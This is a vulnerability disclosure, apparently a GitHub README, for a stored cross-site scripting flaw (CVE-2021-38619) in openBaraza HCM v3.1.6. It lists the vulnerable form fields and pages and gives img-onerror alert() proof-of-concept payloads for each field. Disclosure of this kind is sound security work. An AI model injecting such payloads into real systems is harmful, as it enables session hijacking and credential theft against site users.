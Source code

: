 # CVE-2021-38619 openBaraza HCM HR Payroll v.3.1.6 Unauthenticated Stored XSS Vulnerability

openBaraza HCM v.3.1.6 does not properly neutralize user-controllable input, this could allow an unauthenticated remote attacker to conduct a stored cross-site scripting (XSS) attack against an administrative user from multiple pages. If an attacker injects arbitray javascript payload into vulnerable pages and valid users attempt to visit affected pages the payload will be executed. This could result in stealing credentials, session hijacking, or delivering malware to the victim.


Discoverer credits: Charles Bickel & Gideon Gray

---
Vulnerable page:
http://serverip:9090/hr/application.jsp

Vulnerable textboxes:
first_name, surname, email

Payloads:
* <img src='x'onerror="alert('First');" />
* <img src='x'onerror="alert('Surname');" />
* a@a.com<img src='x'onerror="alert('email');" />

Affected page:
http://serverip:9090/hr/index.jsp?view=23:0


![application.jsp](https://raw.githubusercontent.com/charlesbickel/CVE/main/2021-08-12_23-27-23.gif)


---
Vulnerable page:
http://serverip:9090/hr/subscription.jsp

Vulnerable textboxes:
business_name, primary_contact, primary_email, confirm_email

Payloads:
* <img src='x'onerror="alert('business');" />
* <img src='x'onerror="alert('contact');" />
* <img src='x'onerror="alert('email');" />

Affected page:
http://serverip:9090/hr/index.jsp?view=94:0

![subscription.jsp](https://raw.githubusercontent.com/charlesbickel/CVE/main/2021-08-12_23-21-34.gif)

